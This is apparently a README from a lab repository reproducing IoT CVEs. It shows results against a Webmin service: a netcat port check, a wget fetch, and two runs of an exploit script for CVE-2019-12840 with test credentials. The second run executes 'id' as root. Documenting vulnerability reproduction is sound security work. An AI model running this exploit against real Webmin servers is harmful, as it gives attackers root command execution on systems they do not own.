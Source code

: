 # Webmin

###  Results
* Netcat connection
    ```shell script
    $ nc 172.168.1.83 10000 -v -w 3
	 Connection to 172.168.1.83 10000 port [tcp/webmin] succeeded!
    ```

* Wget *index.html*
    ```shell script
    $ wget --no-check-certificate https://172.168.1.83:10000/index.html
	 --2020-04-21 16:53:01--  https://172.168.1.83:10000/index.html
	 Connecting to 172.168.1.83:10000... connected.
	 WARNING: cannot verify 172.168.1.83's certificate, issued by ‘emailAddress=root@69619865deef,CN=*,O=Webmin Webserver on 69619865deef’:
    	Self-signed certificate encountered.
    	WARNING: certificate common name ‘*’ doesn't match requested host name ‘172.168.1.83’.
	 HTTP request sent, awaiting response... 200 Document follows
	 Length: unspecified [text/html]
	 Saving to: ‘index.html’

	 index.html                     [ <=>                  ]   4,41K  --.-KB/s    in 0,1s    

	 2020-04-21 16:53:01 (33,4 KB/s) - ‘index.html’ saved [4511]
	```
	
	
* Run shell command on regular service:
    ```shell script
    $ python3 ~/iot-cves/CVE-2019-12840/exploit.py -u https://172.168.1.83 -U test -P qwerty -c id
    Exploit unsuccessful
	```
  
* Run shell command on exploitable service:
    ```shell script
    $ python3 ~/iot-cves/CVE-2019-12840/exploit.py -u https://172.168.1.83 -U test -P qwerty -c id
    uid=0(root) gid=0(root) groups=0(root)
	```
